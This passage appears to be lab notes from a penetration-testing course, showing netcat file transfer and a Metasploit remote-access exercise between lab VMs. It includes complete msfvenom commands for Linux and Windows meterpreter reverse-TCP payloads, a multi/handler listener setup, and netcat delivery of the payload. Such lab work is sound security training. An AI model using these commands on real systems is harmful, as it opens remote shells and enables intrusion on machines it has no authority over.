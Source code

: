 on another machine

```console
berkankutuk@kali:~$ nc 10.0.2.15 1337 > received.txt # Connecting to the port
berkankutuk@kali:~$ cat received.txt # Checking the content
```

# Simulating Remote Access
Attacker: 10.0.2.15 (Kali Linux)  
Target: 10.0.2.4 (metasploitable)  

Steps
1. We create a payload, which will establish a connection to the hacking VM
2. Get this payload to the target machine
3. Have a listener running on the attacker's machine, which will receive the connection.
4. Finally execute the payload from the target machine.
5. And then explore the abilities of metasploit's meterpreter.

**Creating the malicious executable**  
```console
berkankutuk@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp -a x86 --platform linux -f elf LHOST=10.0.2.15 LPORT=1337 -o payload.elf
```

For windows
```console
berkankutuk@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows -f exe LHOST=10.0.2.15 LPORT=1337 -o payload.exe
```

**Can you explain the difference in the parameter of the "-f" option? What is it good for?**

```console
berkankutuk@kali:~$ man msfvenom | grep "\-f" # Using the manual page to get the answer
```

Answer: The flag `-f` sets the output format

# Setting up a Listener
**The above malicious code is trying to access a configured host/port combination, awaiting further instructions. Therefore, we have to provide a server the malicious code can connect to.**

```console
berkankutuk@kali:~$ msfconsole
msf6:~$ use multi/handler
msf6:~$ set payload linux/x86/meterpreter/reverse_tcp
msf6:~$ show options
msf6:~$ set LHOST 10.0.2.15
msf6:~$ set LPORT 1337
msf6:~$ exploit
```

now open another terminal
```console
berkankutuk@kali:~$ nc -lvp 1337 < payload.elf
```
